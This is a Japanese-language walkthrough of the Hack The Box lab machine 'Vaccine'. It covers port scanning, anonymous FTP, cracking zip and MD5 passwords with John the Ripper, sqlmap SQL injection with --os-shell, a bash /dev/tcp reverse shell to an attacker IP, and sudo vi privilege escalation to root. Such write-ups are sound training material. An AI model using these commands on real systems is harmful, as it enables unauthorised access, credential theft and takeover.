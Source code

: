 # Vaccine Walkthrough
HTBのVery Easyマシン、Vaccineを解いたよ。  


## 1問目  
1問目は"Besides SSH and HTTP, what other service is hosted on this box?"   
nmapで1から10000のポートを選択してスキャンしてサービスを列挙する。
```
sudo nmap -sV -p 1-10000 -T4 <target_IP> -A -v
```  

21番ポートが空いてるので、このサービスをフラグ入れる。1問目ゲット。  
![alt text](image.png)


## 2問目  
2問目。"This service can be configured to allow login with any password for specific username. What is that username?"  
FTPには**匿名ログイン**なるものがある。nmapでスキャンしたときに**Anonymous FTP login allowed**って書いてあれば、FTPログインする際に**anonymous**ユーザを指定してパスワード入力せずにログインできる。ということで答えは**anonymous**。
![alt text](image.png)  
  

## 3問目  
3問目。"What is the name of the file downloaded over this service?"  
FTP経由でダウンロードできるファイルを確認するため先ほどの**anonymous login**を使って接続してみる。  
```
ftp <target_IP>
Name: anonymous
Password:
```
![alt text](image-1.png)  
  
    
dirでファイルを列挙してからgetコマンドでローカルにファイルを落とす。exitでFTP接続を切る。
```
dir
get backup.zip
exit
```

## 4問目  
4問目。"What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?"  
以下のコマンドでパスワード付きzipからパスワードのハッシュを抽出できる。なので答えは**zip2john**
```
zip2john bakup.zip > hash.txt
cat hash.txt
```  
![alt text](image-2.png)  


## 5問目
5問目。"What is the password for the admin user on the website?"  
とりまブラウザからターゲットサーバの80ポートへ。  
![alt text](image-3.png)  
ここでUsernameは**admin**、ただしPasswordが分からない。  
  

backup.zipから抽出したハッシュをjohnでクラックする。  
パスワードっぽい数字が出てきた。
```
john hash.txt
```  
![alt text](image-4.png)  
  
backup.zipを解凍する。パスワードは先ほどのjohn hash.txtで出てきた上記の数値。  
```
unzip backup.zip
```
  
index.phpが見れるようになるので見てみる。md5のパスワードハッシュらしきものが見える。  
先ほどの管理者画面からpasswordパラメータの値としてこのハッシュをPOSTしていそう。
![alt text](image-5.png)  
  
MD5のハッシュをtxtファイルに保存してjohnでクラックする。ワードリストで迷ったらとりあえずrockyou.txtを使うのがコツ。  
![alt text](image-6.png)  

```
john --format=raw-md5 crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
qwerty789というパスワードが取れた。  

![alt text](image-7.png)  


## 6問目  
6問目。"What option can be passed to sqlmap to try to get command execution via the sql injection?"
helpを見たら--os-shellって書いてあるのでこれが正解。
```
sqlmap --help
```

## 7問目 
7問目。"What program can the postgres user run as root using sudo?"  
sudo -lをすれば、現在ログインしているユーザでパスワード入力なしでroot実行できるコマンドが出てくるので、まずはシェルを取ってからsudo -lしたいところ。  
なのでとりまシェルを取る。  
先ほどのsqlmapを使う。
```
sqlmap -r get.txt -p search --os-shell
```
ここで、-rで指定しているのはこんなやつ。
![alt text](image-8.png)
  

ターゲットの管理画面にブラウザアクセスした後、右上の検索窓から適当に入力するとリクエストが中継されて取れる。  
![alt text](image-9.png)
で、リクエストを見るとsearchパラメータが任意の文字列を渡せる場所なので、sqlmapの-pでsearchを指定。あとはシェルを取るためにさっきの--os-shellオプションをつける。  
  
で、こんな感じでシェルがとれてコマンド実行ができる。現在はPostgresユーザ。  
![alt text](image-10.png)  
  
シェルを安定させるために以下のコマンドを実行してリバースシェルをとっとく。   
```
nc -lvnp 4444
bash -c "bash -i >&1 /dev/tcp/<attackerIP>/4444 0>&1"
```
  
シェルを取ったら/var/www/html/dashboard.phpをcatで確認するとPostgresユーザのパスワードが書いてある。  
やっとの思いでsudo -lを実行する。  
viが使えるのが分かるのでこれが答え。
```
sudo -l
```
  

## 8問目&9問目  
8問目と9問目まとめていきます。ユーザフラグとrootフラグを取る。  
root権限で以下のコマンド実行できるのがさっきのステップで分かった。  
以下を実行する。
```
sudo vi /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
![alt text](image-11.png)  
  
root権限でviを使える。権限昇格のバイブル、[GTFObin](https://gtfobins.github.io/gtfobins/vi/#sudo)をチェック。  
viで開いたら、:set shell=/bin/shと:shellを書き込んでwqで保存するだけぽい。  
   
そんなこんなでrootとれた。
![alt text](image-12.png)  
  
もうrootなんであとはなんでもできる。フラグを探して終わり。  
